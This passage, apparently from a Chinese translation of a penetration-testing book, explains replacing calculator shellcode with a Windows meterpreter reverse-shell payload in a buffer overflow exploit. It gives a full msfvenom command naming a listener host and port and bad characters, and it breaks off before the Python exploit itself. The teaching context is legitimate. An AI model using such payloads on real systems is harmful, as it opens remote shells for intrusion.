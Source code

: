![Writing a basic buffer overflow exploit](img/image00400.jpeg)

然后，我们生成新的 shell 代码 a`windows/meterpreter/reverse_nonx_tcp`并用它替换计算器代码。我们选择这种有效负载类型是因为它是一个非常小的计量器，这意味着因为我们知道我们的内存占用可能是有限的，所以我们有更好的机会成功利用此漏洞。

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -f c -b '\x00\xff\x01\x09\x0a\x0d'
```

### 提示

这些示例中还列出了其他错误字符。出于习惯，我通常在生成有效负载时保留这些。请记住，错误字符越多，编码器就越需要添加执行功能等效操作的操作。这意味着编码越多，负载通常越大。

命令的输出如下，其大小仅为 204 字节：

![Writing a basic buffer overflow exploit](img/image00401.jpeg)

当放入攻击代码时，我们会得到以下 Python 攻击：
